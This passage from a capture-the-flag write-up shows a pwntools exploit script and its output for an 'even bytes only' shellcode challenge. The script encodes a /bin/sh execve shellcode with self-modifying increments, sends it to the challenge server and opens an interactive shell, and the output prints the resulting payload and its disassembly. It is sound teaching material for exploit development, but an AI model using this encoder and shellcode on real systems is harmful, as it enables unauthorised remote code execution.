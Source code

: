 ```  
			if current_position % 2 == 0:  
				encoder_shellcode += asm('mov al, ' + str(current_position) + ''';  
				inc BYTE PTR ds:[rax];''')  
			else:  
				encoder_shellcode += asm('mov al, ' + str(current_position - 1) + ''';  
				inc al;  
				inc BYTE PTR ds:[rax];''')  
  
		else:  
			evened_shellcode += goal_shellcode[i].to_bytes(1, 'little')  
		current_position += 1  
	final_shellcode = encoder_shellcode + asm('NOP;') * (starting_position - len(encoder_shellcode)) + evened_shellcode  
	return final_shellcode

starting_position = 0x80

#Credit to http://shell-storm.org/shellcode/files/shellcode-806.php for the
pre-prepared binsh shellcode.  
goal_shellcode =
b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

shellcode = encode(goal_shellcode, starting_position)

print(shellcode)  
print(disasm(shellcode))

target.sendline(shellcode)

target.interactive()  
```  
And here is the output, with some of the disassembled NOPs removed for
clarity:  
```  
knittingirl@piglet:~/CTF/metaCTF21/twos_compliment$ python3
two_compliment_writeup.py  
[+] Opening connection to host1.metaproblems.com on port 5480: Done  
b'What is your shellcode?'  
b'\xb0\x80\xfe\x00\xb0\x82\xfe\xc0\xfe\x00\xb0\x84\xfe\x00\xb0\x84\xfe\xc0\xfe\x00\xb0\x86\xfe\xc0\xfe\x00\xb0\x8a\xfe\x00\xb0\x8a\xfe\xc0\xfe\x00\xb0\x8c\xfe\xc0\xfe\x00\xb0\x8e\xfe\x00\xb0\x8e\xfe\xc0\xfe\x00\xb0\x90\xfe\xc0\xfe\x00\xb0\x92\xfe\x00\xb0\x94\xfe\x00\xb0\x98\xfe\x00\xb0\x98\xfe\xc0\xfe\x00\xb0\x9a\xfe\x00\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x900\xc0H\xba\xd0\x9c\x96\x90\xd0\x8c\x96\xfeH\xf6\xdaRT^\x98RVT^\xb0:\x0e\x04'  
  0:   b0 80                   mov    al, 0x80  
  2:   fe 00                   inc    BYTE PTR [rax]  
  4:   b0 82                   mov    al, 0x82  
  6:   fe c0                   inc    al  
  8:   fe 00                   inc    BYTE PTR [rax]  
  a:   b0 84                   mov    al, 0x84  
  c:   fe 00                   inc    BYTE PTR [rax]  
  e:   b0 84                   mov    al, 0x84  
 10:   fe c0                   inc    al  
 12:   fe 00                   inc    BYTE PTR [rax]  
 14:   b0 86                   mov    al, 0x86  
 16:   fe c0                   inc    al  
 18:   fe 00                   inc    BYTE PTR [rax]  
 1a:   b0 8a                   mov    al, 0x8a  
 1c:   fe 00                   inc    BYTE PTR [rax]  
 1e:   b0 8a                   mov    al, 0x8a  
 20:   fe c0                   inc    al  
 22:   fe 00                   inc    BYTE PTR [rax]  
```